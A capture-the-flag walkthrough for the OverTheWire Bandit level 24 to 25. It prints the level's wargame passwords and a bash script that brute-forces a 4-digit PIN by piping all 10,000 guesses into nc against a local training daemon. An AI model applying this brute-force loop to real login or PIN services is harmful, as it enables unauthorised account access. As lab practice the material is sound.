 # Bandit Level 24 -> Level 25 #

https://overthewire.org/wargames/bandit/bandit25.html

## SSH Access Details ##
**Username:**  bandit24

**Password:**  VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar
#

## Level Goal : ##
>A daemon is listening on port 30002 and will give you the password for bandit25 if given the password for bandit24 and a secret numeric 4-digit pincode. There is no way to retrieve the pincode except by going through all of the 10000 combinations, called brute-forcing.
>You do not need to create new connections each time

#  
## PROCEDURE : ##

```console
bandit24@bandit:/tmp/myscript$ nc localhost 30002
I am the pincode checker for user bandit25. Please enter the password for user bandit24 and the secret pincode on a single line, separated by a space.
VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar 1111
Wrong! Please enter the correct pincode. Try again.
VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar 2222
Wrong! Please enter the correct pincode. Try again.
VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar 3333
Wrong! Please enter the correct pincode. Try again.
```

```console
bandit24@bandit:/tmp/myscript$ mkdir /tmp/scriptdir
bandit24@bandit:/tmp/myscript$ cd /tmp/scriptdir
bandit24@bandit:/tmp/scriptdir$ touch myscript.sh
bandit24@bandit:/tmp/scriptdir$ nano myscript.sh
```

```bash
#!/bin/bash

for i in {0000..0099};
do
  echo $i
done
```

```console
bandit24@bandit:/tmp/scriptdir$ chmod 777 myscript.sh
```

```console
bandit24@bandit:/tmp/scriptdir$ ./myscript.sh
0000
0001
0002
0003
0004
0005
0006
0007
0008
0009
0010
0011
0012
...
```


```bash
#!/bin/bash
for i in {0000..9999};
do
  echo "VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar " $i;
done | nc localhost 30002
```

```
bandit24@bandit:/tmp/scriptdir$ ./myscript.sh
Wrong! Please enter the correct pincode. Try again.
Wrong! Please enter the correct pincode. Try again.
Wrong! Please enter the correct pincode. Try again.
Wrong! Please enter the correct pincode. Try again.
...
Wrong! Please enter the correct pincode. Try again.
Correct!
The password of user bandit25 is p7TaowMYrmu23Ol8hiZh9UvD0O9hpx8d
```


